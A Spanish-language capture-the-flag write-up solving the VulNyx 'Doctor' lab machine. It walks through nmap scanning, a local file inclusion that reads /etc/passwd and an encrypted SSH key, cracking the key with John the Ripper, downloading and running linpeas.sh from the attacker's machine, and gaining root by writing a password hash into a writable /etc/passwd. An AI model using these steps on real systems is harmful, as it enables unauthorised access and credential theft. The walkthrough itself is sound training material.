

# WriteUp: Doctor | VulNyx

Iniciamos realizando un escaneo con nmap para identificar los puertos abiertos:

```sh
nmap -n -Pn -sS -p- --min-rate 5000 192.168.56.26

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Luego realizamos otro escaneo para para identificar mayor información:

```sh
nmap -sVC -p22,80 192.168.56.26     

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:95:50:0b:e4:73:a1:85:11:ca:10:ec:1c:cb:d4:26 (RSA)
|   256 27:db:6a:c7:3a:9c:5a:0e:47:ba:8d:81:eb:d6:d6:3c (ECDSA)
|_  256 e3:07:56:a9:25:63:d4:ce:39:01:c1:9a:d9:fe:de:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Docmed
```

Luego de esto visitamos el puerto 80 para identificar la web alojada:&#x20;

<figure><figcaption></figcaption></figure>

Inspeccionando la página con el fin de encontrar algún comentario que me haga más fácil la vida (jejej) me percaté de la siguiente estructura:

<figure><figcaption></figcaption></figure>

Así que pues ingresando a esa sección podemos confirmar la URL y un posible LFI:&#x20;

<figure><figcaption></figcaption></figure>

Así que intenté con algunas rutas bastante simples:&#x20;

<figure><figcaption></figcaption></figure>

Bueno, una mejor vista acá:

| Usuario          | Contraseña | UID      | GID      | Comentario/Info              | Directorio Home | Shell             |
| ---------------- | ---------- | -------- | -------- | ---------------------------- | --------------- | ----------------- |
| **root**         | x          | **0**    | **0**    | root                         | /root           | **/bin/bash**     |
| daemon           | x          | 1        | 1        | daemon                       | /usr/sbin       | /usr/sbin/nologin |
| bin              | x          | 2        | 2        | bin                          | /bin            | /usr/sbin/nologin |
| sys              | x          | 3        | 3        | sys                          | /dev            | /usr/sbin/nologin |
| sync             | x          | 4        | 65534    | sync                         | /bin            | /bin/sync         |
| games            | x          | 5        | 60       | games                        | /usr/games      | /usr/sbin/nologin |
| man              | x          | 6        | 12       | man                          | /var/cache/man  | /usr/sbin/nologin |
| lp               | x          | 7        | 7        | lp                           | /var/spool/lpd  | /usr/sbin/nologin |
| mail             | x          | 8        | 8        | mail                         | /var/mail       | /usr/sbin/nologin |
| news             | x          | 9        | 9        | news                         | /var/spool/news | /usr/sbin/nologin |
| uucp             | x          | 10       | 10       | uucp                         | /var/spool/uucp | /usr/sbin/nologin |
| proxy            | x          | 13       | 13       | proxy                        | /bin            | /usr/sbin/nologin |
| www-data         | x          | 33       | 33       | www-data                     | /var/www        | /usr/sbin/nologin |
| backup           | x          | 34       | 34       | backup                       | /var/backups    | /usr/sbin/nologin |
| list             | x          | 38       | 38       | Mailing List Manager         | /var/list       | /usr/sbin/nologin |
| irc              | x          | 39       | 39       | ircd                         | /var/run/ircd   | /usr/sbin/nologin |
| gnats            | x          | 41       | 41       | Gnats Bug-Reporting System   | /var/lib/gnats  | /usr/sbin/nologin |
| nobody           | x          | 65534    | 65534    | nobody                       | /nonexistent    | /usr/sbin/nologin |
| \_apt            | x          | 100      | 65534    |                              | /nonexistent    | /usr/sbin/nologin |
| systemd-timesync | x          | 101      | 102      | systemd Time Synchronization | /run/systemd    | /usr/sbin/nologin |
| systemd-network  | x          | 102      | 103      | systemd Network Management   | /run/systemd    | /usr/sbin/nologin |
| systemd-resolve  | x          | 103      | 104      | systemd Resolver             | /run/systemd    | /usr/sbin/nologin |
| messagebus       | x          | 104      | 110      |                              | /nonexistent    | /usr/sbin/nologin |
| sshd             | x          | 105      | 65534    |                              | /run/sshd       | /usr/sbin/nologin |
| systemd-coredump | x          | 999      | 999      | systemd Core Dumper          | /               | /usr/sbin/nologin |
| **admin**        | x          | **1000** | **1000** | admin                        | /home/admin     | **/bin/bash**     |

Esto es muy interesando, logro visualizar al usuario root y admin, sería muy conveniente si pudiera visualizar el rsa de ambos usuarios.

Intenté mostrar el rsa del root, sin embargo no tuve respuesta, y claro, es evidente, debido a que el UID y GID están en 0, lo cual está reservado solo para el mismo root (pero bueno, no perdía nada intentándolo).

```sh
http://192.168.56.26/doctor-item.php?include=/home/root/.ssh/id_rsa
```

Luego de ello, intenté listar el rsa del usuario admin, como podemos ver su UID Y GID están en 1000, por lo que es muy probable que tengamos alguna visual:&#x20;

<figure><figcaption></figcaption></figure>

Y sí, logramos obtener la clave rsa de admin, sin embargo, podemos visualizar que dice `Proc-Type: 4,ENCRYPTED DEK-Info`, por lo que la clave rsa está encriptada. Esto significa que está protegida por una contraseña para que, incluso si alguien roba el archivo, no pueda usarla.

Bien, entonces lo siguiente que hice fue tratar de encontrar la clave del rsa a través de fuerza bruta con John the Ripper:

```sh
# Copiamos la clave rsa y la pegamos en un nuevo archivo
$ nano credenciales

# Luego generamos un archivo que JtR pueda leer
$ ssh2john credenciales > crede.txt

# Y por último, lo pasamos a JtR para que busque la contraseña:
$ john --wordlist=/usr/share/wordlists/rockyou.txt crede.txt

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXXXX          (credenciales) 

# 7u7!! listo, JtR nos dio la clave 7u7!! 
```

Luego, intentamos la conexión por SSH:

```sh
# Primero le damos los permisos necesarios al archivo
chmod 600 credenciales

# Luego nos conectamos
ssh -i credenciales admin@192.168.56.26
Enter passphrase for key 'credenciales': 
admin@doctor:~$ id
uid=1000(admin) gid=1000(admin) grupos=1000(admin)

# 7u7!!!!
```

Bien, lo siguiente que hice fue buscar permisos de ejecución:

```sh
sudo -l
# NADA

find / -perm -u=s -type f 2>/dev/null
# NADA

cat /etc/crontab
# NADA

grep -r "password" /var/www/html 2>/dev/null
# NADA
```

Debido a que no encontré nada T-T! decidí automatizar :D!!!!! con LinPeas :D!!! En kali ya lo tenemos descargado.

```sh
# Nos movemos a 
cd /usr/share/peass/linpeas

# Creamos un servidor con python
python3 -m http.server 80
```

En nuestra máquina victima nos vamos a `/tmp` ya que ahí tenemos todos los permisos.

```sh
cd /tmp

# Descargamos LinPeas de nuestro kali
wget http://192.168.56.22/linpeas.sh

# Le damos permisos
chmod +x linpeas.sh

# Luego ejecutamos
./linpeas.sh
```

Luego de un momento de espera y de revisar toda la información, nos encontramos con los siguiente:&#x20;

<figure><figcaption></figcaption></figure>

7u7!!!! BINGOOO!!!

Que LinPeas nos muestre `"/etc/passwd is writable"` significa que nuestro usuario (`admin`) tiene permisos para modificar este archivo crítico del sistema.

Normalmente, las contraseñas están seguras en el archivo `/etc/shadow`, que solo `root` puede leer. El archivo `/etc/passwd` solo contiene una `x` en el campo de la contraseña (`root:x:0:0...`) para indicarle al sistema que busque en `/etc/shadow`.

Como ahora nosotros podemos escribir en `/etc/passwd`, podemos reemplazar `x` con nuestra propia contraseña cifrada. Al hacer esto, el sistema ya no usará `/etc/shadow` para autenticar a `root`, sino que usará la contraseña que acabamos de adjuntar.

Para este proceso vamos a generar una contraseña cifrada para reemplazar a la `x`, hacemos lo siguiente:

```sh
openssl passwd -1 123456

# 123456 es la contraseña que deseamos cifrar
```

Esto nos genera: `$1$gTqcQbju$b5huo6K8egw0UDboANeq/.` Ahora vamos a editar el archivo reemplazando la `x` en root:

```sh
nano /etc/passwd

root:x:0:0:root:/root:/bin/bash
```

Ahora tenemos:

```sh
root:$1$gTqcQbju$b5huo6K8egw0UDboANeq/.:0:0:root:/root:/bin/bash
```

Guardamos los cambios y salimos del editor (en `nano`, es `Ctrl+O`, `Enter`, y luego `Ctrl+X`).

Y ahora solo tenemos que convertirnos en root:

```sh
su root
```

El sistema nos pedirá la contraseña. Introducimos la que registramos (`123456`).

```sh
admin@doctor:/tmp$ su root
Contraseña: 
root@doctor:/tmp# id
uid=0(root) gid=0(root) grupos=0(root)

# 7u7!!!! Listo, máquina terminada 7u7!!!!!!
```
